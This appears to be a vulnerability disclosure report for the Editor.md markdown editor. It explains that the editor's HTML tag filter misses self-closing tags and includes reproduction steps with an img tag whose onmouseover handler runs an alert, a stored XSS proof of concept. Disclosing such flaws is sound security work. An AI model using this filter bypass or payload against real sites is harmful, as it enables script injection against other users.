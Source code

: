 # Description

I would like to report XSS vulnerability in pandao/editor.md
Implemented Html tag filtering doesn't work for self clossing tags, leading to posible code injection on this elements

# Module
module name: Editor.md
version: all versions

# Module Description

Editor.md : The open source embeddable online markdown editor (component), based on CodeMirror & jQuery & Marked.

# Weekly Downloads

1,417

# Vulnerability Description

XSS in editor.md is avoided by using filterHTMLTags which uses a RegExp to replace possible dangerous content, unfortunetly the RegExp doesn't handle self clossing tags, making it possible to execute code


# POC

Insert in editor a self clossing element with event to execute code

  1. Download editor.md 
    `git clone https://github.com/pandao/editor.md`
  2. Go into directory
    `cd editor.md` 
  3. Make the content available with any web server
    `php -S localhost:8080`
  4. open http://localhost:8080/examples/html-tags-decode.html
  5. Filter code execution by clicking on Filter style,script,iframe|onclick,title,onmouseover,onmouseout,style
     (No code should be executed with this Filter)
  2. Insert element with payload usig the editor (New line is important):
     ````
     <img src="https://picsum.photos/200" style="position:fixed;left:0;top:0;width:200px;height:200px;z-index:100" onmouseover="alert('img execution...')"/>
     sss
     ```

# Impact
This could have enabled an attacker to execute code remotely if the content of the editor is saved and then retrieved by some other user
